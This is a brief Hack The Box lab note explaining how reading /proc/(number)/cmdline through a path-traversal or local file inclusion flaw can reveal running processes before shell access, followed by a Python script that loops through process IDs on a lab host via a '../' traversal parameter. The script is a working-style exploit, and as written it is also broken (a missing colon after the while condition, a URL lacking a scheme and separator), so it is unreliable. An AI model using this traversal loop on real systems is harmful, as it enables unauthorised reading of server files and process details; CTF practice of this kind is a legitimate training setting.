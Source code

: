 ### 20-03-23
### Hack The Box - path-traversal - enumuration over /proc/(number)/cmdline

/proc/(number)/cmdline - this path can be very helpful wehn you havnt yet got terminal access to a box, it may be possible to see processes that are running on the box with local file inclusion if the vurnrability exists on the box.
  
### proc_cmdline.py
  
```python
import requests

host = "test.htb"
path = host + "vurn.php?img=../../../../../../../../../"

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

i=1
while i < 10000
    response = requests.get(path + 'proc/'+str(i)+'/cmdline',headers=headers,verify=False,)
    if response.text:
        print (str(i),response.text)
    i = i + 1  
```
